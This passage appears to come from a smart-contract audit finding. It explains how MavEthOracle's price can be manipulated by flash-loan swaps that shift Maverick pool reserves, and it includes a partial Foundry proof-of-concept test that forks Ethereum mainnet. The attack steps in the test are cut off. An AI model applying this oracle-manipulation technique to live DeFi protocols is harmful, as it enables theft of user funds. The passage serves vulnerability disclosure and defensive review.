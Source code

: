 However, the reserves of a Maverick position can fluctuate when the price of the Maverick pool changes. Therefore, the returned price of this function can be manipulated by swapping a significant amount of tokens into the Maverick pool. An attacker can utilize a flash loan to initiate a swap, thereby changing the price either upwards or downwards, and subsequently swapping back to repay the flash loan.

Attacker can decrease the returned price of MavEthOracle by swapping a large amount of the higher value token for the lower value token, and vice versa.

Here is a test file that demonstrates how the price of the MavEthOracle contract can be manipulated by swapping to change the reserves.

```solidity=
pragma solidity 0.8.17;

import { Test } from "forge-std/Test.sol";
import 'forge-std/console.sol';

import { WETH9_ADDRESS, TOKE_MAINNET, WSTETH_MAINNET } from "test/utils/Addresses.sol";

import { IPool } from "src/interfaces/external/maverick/IPool.sol";
import { MavEthOracle } from "src/oracles/providers/MavEthOracle.sol";
import { SystemRegistry, ISystemRegistry } from "src/SystemRegistry.sol";
import { RootPriceOracle } from "src/oracles/RootPriceOracle.sol";
import { AccessController, IAccessController } from "src/security/AccessController.sol";
import { IPriceOracle } from "src/interfaces/oracles/IPriceOracle.sol";
import { SwEthEthOracle} from "src/oracles/providers/SwEthEthOracle.sol";
import { EthPeggedOracle} from "src/oracles/providers/EthPeggedOracle.sol";
import { IswETH } from "src/interfaces/external/swell/IswETH.sol";
import { IPoolPositionDynamicSlim } from "src/interfaces/external/maverick/IPoolPositionDynamicSlim.sol";
import { IERC20 } from "openzeppelin-contracts/token/ERC20/IERC20.sol";

contract NewTest is Test {
  SystemRegistry public registry;
  AccessController public accessControl;
  RootPriceOracle public rootOracle;
  MavEthOracle public mavOracle;

  function setUp() external {
    vm.createSelectFork("https://rpc.ankr.com/eth", 17224221);
    registry = new SystemRegistry(TOKE_MAINNET, WETH9_ADDRESS);
    accessControl = new AccessController(address(registry));
    registry.setAccessController(address(accessControl));
    rootOracle = new RootPriceOracle(registry);
    registry.setRootPriceOracle(address(rootOracle));
    mavOracle = new MavEthOracle(registry);
  }

  function swapCallback(
    uint256 amountToPay,
    uint256 amountOut,
    bytes calldata _data
  ) external {
    address tokenIn = abi.decode(_data, (address));
    IERC20(tokenIn).transfer(msg.sender, amountToPay);
  }

  function test_MaverickOracleManipulation() external {
    IswETH swETH = IswETH(0xf951E335afb289353dc249e82926178EaC7DEd78);
    address weth = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;
    address boostedPosition = 0xF917FE742C530Bd66BcEbf64B42c777B13aac92c;
    SwEthEthOracle swEthOracle = new SwEthEthOracle(registry, swETH);
    EthPeggedOracle ethOracle = new EthPeggedOracle(registry);
    rootOracle.registerMapping(address(swETH), swEthOracle);
```